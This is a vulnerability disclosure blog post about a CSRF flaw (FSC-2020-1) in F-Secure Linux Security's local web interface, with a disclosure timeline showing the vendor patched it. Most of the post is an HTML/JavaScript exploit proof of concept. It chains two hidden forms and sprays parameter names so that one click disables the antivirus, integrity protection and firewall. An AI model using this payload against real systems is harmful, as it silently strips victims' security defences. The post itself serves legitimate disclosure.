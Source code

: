```yaml
---
layout: post
title:  "FSC-2020-1"
date:   2020-08-06 17:13:37 +0100
categories: bug
---
```


<style>
code {
  white-space : pre-wrap !important;
}
</style>


# Single-click double CSRF to disable Linux Security (from F-Secure)


### Timeline
* 21 April 2020 - Bug reported to F-Secure <br/>
* 14 May 2020 - F-Secure releases a *hotfix* to address the bug <br/>
* 19 May 2020 - F-Secure releases a Security Advisory for the bug ([FSC-2020-1](https://www.f-secure.com/en/business/support-and-downloads/security-advisories/fsc-2020-1))

### The bug

The security solution "Linux Security" is manageable, after installation, browsing a local instance of Tomcat available at `http://localhost:28080`

Unfortunately, the web application was missing proper anti-CSRF tokens to prevent CSRF attacks from arbitrary websites. Although the solution was somehow trying to avoid CSRF attacks by changing the name of some of the variables/parameters (in the form of incremental numbers) after every interaction with the web interface, that wasn't enough.

I was able to create the following PoC which sprays the variables' name space and chains 2 CSRF to: **Disable the anti-virus, system integrity protection and the firewall** with a single "phished" click:

Video PoC:

<iframe width="560" height="315" src="https://www.youtube.com/embed/ODuJCgx3SyM" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>


Exploit PoC:
```html
<html>
<head>
<script>
function chainForm(){
  setTimeout(new function(){document.getElementById('submit1').click() }, 2000)
}
function loadDoc() {
  var xhttp = new XMLHttpRequest();
  xhttp.withCredentials = true;
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.body.innerHTML += this.responseText;
    }
  };
  xhttp.open("GET","http://localhost:28080/fsecure/webui", true);
  xhttp.send();
}
</script>
</head>
<body onload="loadDoc(); ">
  <script>history.pushState('', '', '/')</script>
    <iframe style="display:none" name="myframe"></iframe>
    <iframe style="display:none" name="myframe2"></iframe>
    <form id="form1" style="display:none" target="myframe" action="http://localhost:28080/fsecure/webui" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="v29" value="&#45;1" />
      <input type="hidden" name="v28" value="&#45;1" />
      <input type="hidden" name="v31" value="0" />
      <input type="hidden" name="v30" value="0" />
      <input type="hidden" name="wa&#95;clientprobe" value="1" />
      <input type="hidden" name="wa&#95;jsversion" value="JavaScript&#32;1&#46;5" />
      <input type="hidden" name="wa&#95;screenwidth" value="1920" />
      <input type="hidden" name="wa&#95;screenheight" value="1440" />
      <input type="hidden" name="wa&#95;javaenabled" value="false" />
      <input type="hidden" name="v27" value="1" />
      <input type="hidden" name="declare&#58;v7" value="" />
      <input type="hidden" name="v7" value="2" />
      <input type="hidden" name="declare&#58;v10" value="" />
      <input type="hidden" name="v10" value="8" />
      <input type="hidden" name="declare&#58;v13" value="" />
      <input type="hidden" name="v13" value="2" />
      <input type="hidden" name="v15" value="null" />
      <input type="hidden" name="v16" value="true" />
      <input type="hidden" name="v22" value="null" />
      <input type="hidden" name="v23" value="true" />
      <input type="hidden" name="declare&#58;v5" value="" />
      <input type="hidden" name="v1" value="false" />
      <input type="hidden" name="v2" value="false" />
      <input type="hidden" name="v3" value="false" />
      <input type="hidden" name="v4" value="false" />
      <input type="hidden" name="v24" value="" />
      <!--<input type="hidden" name="d101806e199&#95;ACTIVE&#95;ITEM" value="" />-->
      <input type="hidden" name="v32" value="" />
      <input id="submit1" type="submit" value="Submit request"  onclick="document.getElementById('form1').style.display = 'none';"/>

      <!-- Spray the variables' name space with 2 (Disable for AV and Integrity) -->
      <input type="hidden" name=v29 value="2" />
<input type="hidden" name=v32 value="2" />
<input type="hidden" name=v35 value="2" />
<input type="hidden" name=v30 value="2" />
<input type="hidden" name=v33 value="2" />
<input type="hidden" name=v36 value="2" />
<input type="hidden" name=v31 value="2" />
[...] Here the form just continues until "v1000" is set to "2"

    </form>

    <form id="form2" target="myframe2" action="http://localhost:28080/fsecure/webui" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="v29" value="&#45;1" />
      <input type="hidden" name="v28" value="&#45;1" />
      <input type="hidden" name="v31" value="0" />
      <input type="hidden" name="v30" value="0" />
      <input type="hidden" name="wa&#95;clientprobe" value="1" />
      <input type="hidden" name="wa&#95;jsversion" value="JavaScript&#32;1&#46;5" />
      <input type="hidden" name="wa&#95;screenwidth" value="1920" />
      <input type="hidden" name="wa&#95;screenheight" value="1440" />
      <input type="hidden" name="wa&#95;javaenabled" value="false" />
      <input type="hidden" name="v27" value="1" />
      <input type="hidden" name="declare&#58;v7" value="" />
      <input type="hidden" name="v7" value="2" />
      <input type="hidden" name="declare&#58;v10" value="" />
      <input type="hidden" name="v10" value="8" />
      <input type="hidden" name="declare&#58;v13" value="" />
      <input type="hidden" name="v13" value="2" />
      <input type="hidden" name="v15" value="null" />
      <input type="hidden" name="v16" value="true" />
      <input type="hidden" name="v22" value="null" />
      <input type="hidden" name="v23" value="true" />
      <input type="hidden" name="declare&#58;v5" value="" />
      <input type="hidden" name="v1" value="false" />
      <input type="hidden" name="v2" value="false" />
      <input type="hidden" name="v3" value="false" />
      <input type="hidden" name="v4" value="false" />
      <input type="hidden" name="v24" value="" />
      <!--<input type="hidden" name="d101806e199&#95;ACTIVE&#95;ITEM" value="" />-->
      <input type="hidden" name="v32" value="" />
      <input id="submit2" type="submit" value="Submit Request"  onclick="document.getElementById('form2').style.display = 'none';chainForm();"/>

      <!-- Spray the variables' name space with 8 (Disable Firewall) -->
      <input type="hidden" name=v29 value="8" />
<input type="hidden" name=v32 value="8" />
<input type="hidden" name=v35 value="8" />
<input type="hidden" name=v30 value="8" />
<input type="hidden" name=v33 value="8" />
<input type="hidden" name=v36 value="8" />
<input type="hidden" name=v31 value="8" />
[...] Here, as above, the form just continues until "v1000" is set to "8"

</form>
</body>
</html>

```
